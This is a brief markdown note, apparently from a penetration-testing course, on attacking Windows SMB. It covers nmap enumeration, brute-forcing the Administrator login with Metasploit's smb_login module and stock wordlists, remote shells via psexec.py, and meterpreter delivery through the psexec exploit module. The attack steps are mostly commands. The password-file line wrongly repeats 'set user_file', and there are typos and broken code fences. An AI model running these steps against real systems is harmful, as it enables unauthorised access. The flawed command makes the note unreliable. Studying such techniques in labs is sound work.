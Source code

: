 # Exploiting SMB

PS Exec requires legitimate credentials  
SMB login brute force attach is the best attack for this  - _We can narrow down to the username **Administrator**_

## Enumerate
Use nmap -sC -sV to verify SMB version  
Message signing enabled but not required - This means we can authenticate with PSexec

## Brute Force
```service postgresql start && msfconsole```

**Module** - auxiliary/scanner/smb/smb_login
user file - ```set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt```  
Password file - ```set user_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt```  
Turn off Verbose

## psexec.py 
Since we cannot run .exe files on linux, we are going to use psexec.py

``psexec.py (username)@(Target IP address) cmd.exe```

## Extending attack - Metasploit
**Module** - exploit/windows/smb/psexec  
_This will authenticate through SMB and upload a meterpreter payload and execute it. This provides us with a meterpreset session_
